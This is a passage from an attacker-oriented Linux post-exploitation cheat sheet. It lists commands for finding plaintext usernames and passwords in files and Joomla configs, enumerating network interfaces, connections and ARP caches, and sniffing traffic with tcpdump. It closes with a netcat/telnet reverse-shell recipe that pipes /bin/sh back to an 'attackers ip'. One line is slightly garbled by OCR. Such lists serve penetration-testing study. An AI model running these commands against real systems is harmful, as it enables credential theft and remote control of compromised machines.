 #### **Any plain text usernames and/or passwords?**

|     |     |
| --- | --- |
| 1<br>2<br>3<br>4 | grep -i user [filename]<br>grep -i pass [filename]<br>grep -C 5 "password" [filename]<br>find . -name "*.php" -print0 \| xargs -0 grep -i -n "var $password" # Joomla |

## **Communications & Networking**

#### **What NIC(s) does the system have? *Is it connected to another network?***

|     |     |
| --- | --- |
| 1<br>2<br>3 | /sbin/ifconfig -a<br>cat /etc/network/interfaces<br>cat /etc/sysconfig/network |

#### **What are the network configuration settings? *What can you find out about this network? DHCP server? DNS server? Gateway?***

|     |     |
| --- | --- |
| 1<br>2<br>3<br>4<br>5<br>6 | cat /etc/resolv.conf<br>cat /etc/sysconfig/network<br>cat /etc/networks<br>iptables -L<br>hostname<br>dnsdomainname |

#### **What other users & hosts are communicating with the system?**

|     |     |
| --- | --- |
| 1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10 | lsof -i<br>lsof -i :80<br>grep 80 /etc/servicesls -<br>netstat -antup<br>netstat -antpx<br>netstat -tulpn<br>chkconfig --list<br>chkconfig --list \| grep 3:on<br>last<br>w |

#### **Whats cached? *IP and/or MAC addresses***

|     |     |
| --- | --- |
| 1<br>2<br>3 | arp -e<br>route<br>/sbin/route -nee |

#### **Is packet sniffing possible? What can be seen? *Listen to live traffic***

|     |     |
| --- | --- |
| 1   | tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21 |

*Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]*

#### **Have you got a shell? *Can you interact with the system?***

|     |     |
| --- | --- |
| 1<br>2<br>3 | nc -lvp 4444    # Attacker. Input (Commands)<br>nc -lvp 4445 # Attacker. Ouput (Results)<br>telnet [atackers ip] 44444 \| /bin/sh \| [local ip] 44445 # On the targets system. Use the attackers IP! |
